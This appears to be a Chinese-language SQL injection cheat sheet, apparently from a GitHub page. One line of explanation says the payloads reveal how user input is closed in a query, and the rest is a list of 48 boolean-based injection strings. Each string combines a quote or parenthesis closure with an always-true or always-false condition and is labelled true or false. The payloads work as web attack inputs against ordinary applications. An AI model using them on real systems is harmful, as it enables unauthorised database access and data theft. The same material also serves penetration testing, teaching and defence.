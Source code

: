 使用恒等条件判断, 若为 `true` 则返回数据, 若为 `false` 则没有数据

> 可用于判断闭合方式

```
 OR 1=1       # true
 || 1=1       # true
 AND 1=2      # false
 && 1=2       # false
 OR 1=1 --    # true
 || 1=1 --    # true
 AND 1=2 --   # false
 &&  1=2 --   # false
' OR 1=1      # true
' || 1=1      # true
' AND 1=2     # false
' && 1=2      # false
' OR 1=1 --   # true
' || 1=1 --   # true
' AND 1=2 --  # false
' && 1=2 --   # false
" OR 1=1      # true
" || 1=1      # true
" AND 1=2     # false
" && 1=2      # false
" OR 1=1 --   # true
" || 1=1 --   # true
" AND 1=2 --  # false
" && 1=2 --   # false
) OR 1=1      # true
) || 1=1      # true
) AND 1=2     # false
) && 1=2      # false
) OR 1=1 --   # true
) || 1=1 --   # true
) AND 1=2 --  # false
) && 1=2 --   # false
') OR 1=1     # true
') || 1=1     # true
') AND 1=2    # false
') && 1=2     # false
') OR 1=1 --  # true
') || 1=1 --  # true
') AND 1=2 -- # false
') && 1=2 --  # false
") OR 1=1     # true
") || 1=1     # true
") AND 1=2    # false
") && 1=2     # false
") OR 1=1 --  # true
") || 1=1 --  # true
") AND 1=2 -- # false
") && 1=2 --  # false
```

